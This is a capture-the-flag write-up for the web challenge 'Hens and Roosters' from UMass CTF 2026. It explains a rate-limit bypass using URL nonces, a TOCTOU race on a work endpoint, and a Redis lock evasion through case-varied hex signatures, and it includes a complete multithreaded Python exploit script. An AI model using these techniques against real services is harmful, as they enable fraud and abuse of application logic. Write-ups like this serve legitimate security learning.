

# Hens and Roosters — UMass CTF 2026

> **Room / Challenge:** Hens and Roosters (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** UMass CTF 2026
- **Challenge:** Hens and Roosters (web)

---

<p align="center"></p>

## Goal

Gain enough studs to get the flag.

## My Solution

Download the source here: [source.zip](https://github.com/jameskaois/ctf-writeups/raw/refs/heads/main/umass-ctf-2026/Hens%20and%20Roosters/source.zip).

At first glance, this challenge looked like it was going to require some heavy math. But it turned out to be a really cool chain of web vulnerabilities (my teamate told me to try it):

## 1. Bypassing HAProxy

The HAProxy configuration had an aggressive rate limit, but there was a flaw in how it tracked requests:
`http-request track-sc0 url`

Because it tracked the exact URL string, I bypassed the rate limiter entirely by just appending a random nonce to my query parameters on every request (e.g., `/?nonce=1234`). The proxy saw every request as unique, letting me spam the server.

## 2. The Setup

The goal is to get 7 studs to buy the flag. Working normally gets you to 2 studs before the server cuts you off. I played legitimately up to 2 studs to get a valid signature for the `2|<uid>` payload. This was crucial because racing from 0 studs caused the server to crash (SageMath's C-libraries segfaulted when hit concurrently).

## 3. The TOCTOU Race Condition

The `POST /work` endpoint has a Time-of-Check to Time-of-Use (TOCTOU) bug. It verifies your signature and then increments your studs. If you send concurrent requests, they all pass the verification check before any of them actually increment the balance.

## 4. The Redis Lock Bypass (The Magic)

The server tries to stop you from racing by locking your signature in Redis (`r.set(sig, b'-')`). If multiple threads use the same signature, the lock blocks them.

However, Python's `bytes.fromhex(sig)` is **case-insensitive**, while Redis keys are **case-sensitive**. I took my valid signature and randomly changed the casing of the hex letters (e.g., `a1b2` -> `A1b2`, `a1B2`). This generated variations that were mathematically identical to Python, but completely unique to Redis.

## 5. Getting the Flag

I fired off 25 concurrent threads using a `threading.Barrier`, each holding a uniquely-cased signature. Every thread bypassed the Redis lock, evaluated as valid, and incremented my studs simultaneously. I blew past the 7 stud requirement, hit the `/buy` endpoint and the flag appears.

Solve script:

```python
import requests
import threading
import re
import os
import random

BASE_URL = "..."

def rand_str():
    return os.urandom(4).hex()

def generate_case_variants(base_sig, count):
    variants = set()
    while len(variants) < count:
        variant = "".join(
            c.upper() if c.isalpha() and random.choice([True, False]) else c.lower()
            for c in base_sig
        )
        variants.add(variant)
    return list(variants)

def exploit():
    s = requests.Session()

    res = s.get(f"{BASE_URL}/?nonce={rand_str()}")
    uid_match = re.search(r"is ([a-f0-9]{16})!", res.text)
    if not uid_match:
        return False
    uid = uid_match.group(1)

    res = s.get(f"{BASE_URL}/buy?uid={uid}&nonce={rand_str()}")
    sig0 = re.search(r"signature: ([a-f0-9]{508})", res.text).group(1)

    res = s.post(f"{BASE_URL}/work?nonce={rand_str()}", json={"uid": uid, "sig": sig0})
    sig1 = re.search(r"is ([a-f0-9]{508})!", res.text).group(1)

    res = s.post(f"{BASE_URL}/work?nonce={rand_str()}", json={"uid": uid, "sig": sig1})
    sig2 = re.search(r"is ([a-f0-9]{508})!", res.text).group(1)

    num_threads = 25
    unique_sigs = generate_case_variants(sig2, num_threads)
    barrier = threading.Barrier(num_threads)
    threads = []

    def race_work(thread_id, unique_sig):
        local_s = requests.Session()
        url = f"{BASE_URL}/work?nonce={rand_str()}"
        req = requests.Request('POST', url, json={"uid": uid, "sig": unique_sig})
        prep = req.prepare()

        try:
            barrier.wait()
            local_s.send(prep, timeout=5)
        except Exception:
            pass

    for i in range(num_threads):
        t = threading.Thread(target=race_work, args=(i, unique_sigs[i]))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

    res = s.get(f"{BASE_URL}/buy?uid={uid}&nonce={rand_str()}")

    if "UMASS{" in res.text:
        print(res.text)
        return True
    return False

if __name__ == "__main__":
    while not exploit():
        pass
```
